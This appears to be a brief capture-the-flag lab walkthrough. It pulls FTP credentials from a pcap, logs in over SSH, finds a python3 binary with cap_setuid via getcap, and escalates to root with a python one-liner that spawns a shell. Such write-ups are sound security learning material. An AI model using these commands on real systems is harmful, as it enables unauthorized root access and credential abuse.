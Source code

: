 **Extracting FTP Credentials:**
- Opened the directory `/data/0` and downloaded the pcap file.
- Analyzed the pcap file using Wireshark to extract FTP credentials:
![[Pasted image 20250202203135.png]]

**Gaining Initial Access:**
- Authenticated via SSH using the extracted credentials:
`ssh nathan@<target_ip>`

**Identifying Privilege Escalation Vectors:**
- Ran the following command to find files with elevated capabilities:
`getcap -r / 2>/dev/null`
Result:
`/usr/bin/python3.8 = cap_setuid,cap_net_bind_service+eip`

**Exploiting Python3 Capabilities:**
- Used the following exploit to escalate privileges to root:
`python3 -c 'import os; os.setuid(0); os.system("/bin/sh")'`